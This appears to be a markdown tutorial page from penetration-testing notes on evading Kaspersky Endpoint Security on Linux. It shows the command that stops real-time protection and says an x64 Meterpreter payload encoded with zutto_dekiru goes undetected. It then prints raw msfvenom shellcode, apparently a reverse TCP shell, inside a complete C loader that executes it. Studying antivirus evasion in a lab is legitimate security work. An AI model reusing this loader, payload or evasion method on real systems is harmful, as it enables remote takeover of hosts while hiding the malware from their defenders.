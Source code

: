 ## What is Kaspersky?
Kaspersky is a well-known and widely-used vendor for antivirus products and as such, provides a good baseline for testing antivirus protections on Linux systems.
Kaspersky's Endpoint Security product, by default, enables real-time protection.

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, which stops a specified task number.
```sh
sudo kesl-control --stop-t 1
```

To test if Kaspersky really works, we can test the [EICAR file](https://www.eicar.org/?page_id=3950). 
This file is used by antivirus vendors to test the detection capabilities of their products.

To perform the scan, we can run the kesl-control utility as before, but this time with the --scan-file flag, which specifies a file to scan for viruses.
```sh
sudo kesl-control --scan-file ./eicar.txt
```

![](../../../Screenshots/eicar-fd.png)

We can view the name of the detected infection by querying Kaspersky's event log with the following command:
```sh
sudo kesl-control -E --query | grep DetectName
```
(We use grep to filter on "DetectName" to display the names of the detected malware.)

![](../../../Screenshots/ksprs-el.png)

The resulting DetectName entry states that Kaspersky detected the EICAR test file, which is what we were initially scanning.

We can now proceed to create a 32-bit meterpreter elf shell file, and scan it to see if it gets detected.

![](../../../Screenshots/ks-dm32.png)
A 32 bit encoded meterpreter shell yields the same result.

However, a 64-bit Meterpreter payload encoded with the x64/zutto_dekiru encoder is not detected by the AV:
![](../../../Screenshots/m64zd-ntd.png)

To make this even better, we can create a C wrapper program for our shellcode.
We will start by use a few _include_ statements to access functions included in the standard c libraries.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```

The next section is an unsigned character array variable called _buf_ that contains our shellcode output in C format from msfvenom.
```C
unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";
```

The final section is the _main_ function.
This contains the content of our program and is run when our program starts.
The _main_ function takes two arguments, an integer called _argc_, which stores how many arguments are passed to the program. 
and one called _argv_, which is an array of strings containing the actual values of the arguments passed to the program.
Inside our _main_ function, 
1.  We are defining a function pointer called _ret_.
2. The _ret_ function takes in no arguments (as indicated by the empty parentheses to the left of the equals sign).
3. The _int_ on the left indicates that our function returns an integer value.
4. On the right of the equals sign, we have the name of our shellcode variable, _buf_, but with some elements within parentheses before it
5. The parentheses and their contents just indicate that we're _casting_ our _buf_ variable to be a function pointer.
6. The last line of our _main_ function just takes the function pointer we've created (called _ret_) and calls the function it points to, which is our shellcode.
```C
int main (int argc, char **argv) 
{
	// Run our shellcode
	int (*ret)() = (int(*)())buf;
  	ret();

}
```
